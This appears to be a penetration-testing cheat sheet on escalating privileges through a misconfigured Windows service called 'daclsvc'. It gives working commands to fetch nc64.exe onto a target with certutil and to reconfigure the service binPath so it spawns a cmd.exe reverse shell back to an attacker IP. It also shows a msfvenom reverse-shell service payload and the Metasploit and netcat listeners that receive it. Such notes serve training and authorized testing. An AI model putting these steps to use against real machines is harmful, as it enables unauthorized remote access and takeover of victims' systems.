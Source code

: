 ### **EXPLOITING INSECURE SERVICE WITH NETCAT**

1.  Host the nc binary Using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../../../img/Windows-Environment/60.png)

    **NOTE:** Kali has a builtin copy of nc.exe located in the /usr/share/windows-resources/binaries/ directory.
    
2.  Transfer the script to the target machine using certutil:  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/nc64.exe nc64.exe`

    ![](../../../../img/Windows-Environment/61.png)
    
3.  To exploit a service, place nc.exe in the C:\\temp folder and modify the service binpath with this command:  
    `sc config daclsvc binPath= "C:\temp\nc64.exe [IP-ADRESS] 443 -e C:\windows\system32\cmd.exe"`

    ![](../../../../img/Windows-Environment/62.png)
    
4.  Now, all we have to do is set up a netcat listener on our attacker machine on port 443 and then start the service.  
    `sc start daclsvc`

    ![](../../../../img/Windows-Environment/63.png)
    

### **EXPLOITING INSECURE SERVICE WITH METASPLOIT**

3.  Alternatively, we can use msfvenom to create a reverse shell payload  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe-service -o reverse.exe`

    ![](../../../../img/Windows-Environment/64.png)

    **NOTE:** After creating the reverse shell payload, transfer it to the target machine.
    
4.  Start your listener on the attacking machine  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`

    ![](../../../../img/Windows-Environment/65.png)
    
5.  Alternatively, we can start a listener using nc:  
    `sudo rlwrap -cAr nc -lvnp 1338`
    
6.  Now, all we have to do is Modify the Service Binary Path and start the service.  
    `sc config daclsvc binPath= "C:\temp\reverse.exe"` , `sc stop daclsvc` , `sc start daclsvc` or `net start daclsvc`

    ![](../../../../img/Windows-Environment/66.png)